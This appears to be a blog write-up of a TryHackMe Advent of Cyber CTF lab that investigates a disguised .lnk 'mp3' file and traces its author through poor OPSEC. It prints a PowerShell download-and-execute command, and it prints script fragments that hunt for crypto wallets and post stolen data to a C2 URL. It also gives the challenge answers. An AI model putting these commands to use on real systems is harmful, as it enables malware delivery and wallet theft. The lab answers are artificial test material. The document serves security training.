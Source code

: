 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2024-12-01-THM-Advent-Day-1
tags:
- Basic
- MerryChristmas
- THM
title: THM - Advent of Cyber - Day 1
---
```

This CTF is done mainly with following the instructions in the task. 

![alt text](image-1_1.png)

## Objectives :


    Learn how to investigate malicious link files.
    Learn about OPSEC and OPSEC mistakes.
    Understand how to track and attribute digital identities in cyber investigations.

Let's begin by starting the machine and scanning for the open ports:

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-23 07:14 GMT
Nmap scan report for tryhackme.machine
Host is up (0.00060s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds

```

Looks like we have SSH and 2 HTTP ports ports open. Following the instructions let's begin to investigate the website of the host.

![alt text](image.png)

We landed this kind of page which is a YouTube converter. Let's try to convert a random video with it.

![alt text](image-1.png)

We ended up getting an archive called ````download.zip```` These files might contain some information.

````
root@tryhackmeuser:~/Desktop# file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 
07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
````
````
root@tryhackmeuser:~/Desktop# file song.mp3
song.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
````

File recognized ````song.mp3```` to be a genuine mp3-file but ```somg.mp3``` is a Windows shortcut file which is a ``` .lnk ``` file.

Now let´s use some other forensics tools like ExifTool to extract more information about it.

```` 
root@tryhackmeuser:~/Desktop# exiftool somg.mp3
ExifTool Version Number         : 11.88
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.1 kB
File Modification Date/Time     : 2024:10:30 14:32:52+00:00
File Access Date/Time           : 2024:12:23 07:27:32+00:00
File Inode Change Date/Time     : 2024:12:23 07:26:18+00:00
File Permissions                : rw-r--r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 08:14:14+01:00
Access Date                     : 2018:09:15 08:14:14+01:00
Modify Date                     : 2018:09:15 08:14:14+01:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
````
It contains an PowerShell command which downloads a script from github repo and the author of the script is visible. Bad OPSEC. Let's download the script and see what it contains.

````
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}
````

Downloaded script seems to be having some malicious code for searching cryptocurrency wallets in Windows environment. As mentioned earlier the author of script is visible, we can now investigate further via visiting this repository.

![alt](image-3.png)

Visiting the repository, there are few issues which are containing this string ````"Created by the one and only M.M."````

![alt text](image-4.png)

Especially this comment draws attention the author is saying that PowerShell is the language mainly preferred. Now looking at the profile i landed on the configuration page of this account and it contained information example full declaration of this abbreviation. ````M.M```` is called ````Mayor Malware````

So the lesson here was that this is a classic case of a bad OPSEC = Operational Security. The whole downloading process was done via the link to this author's own github repository which is not a good way to hide yourself. Also the script contained strings and sentences which are also used in the public repository. 

By using tool called Strings we can extract some information of the ````song.mp3```` file. This contained the author of the song.

````
TAGMount HackIt
Tyler Ramsbey
2024
````


In the script you can see one of the answers, which C2 server this script will send the acquired data.

````
# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}
````




<h3>Answer the questions below</h3>

Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 

````Tyler Ramsbey````

The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?

````http://papash3ll.thm/data````

Who is M.M? Maybe his Github profile page would provide clues?

````Mayor Malware````

What is the number of commits on the GitHub repo where the issue was raised?

````1````











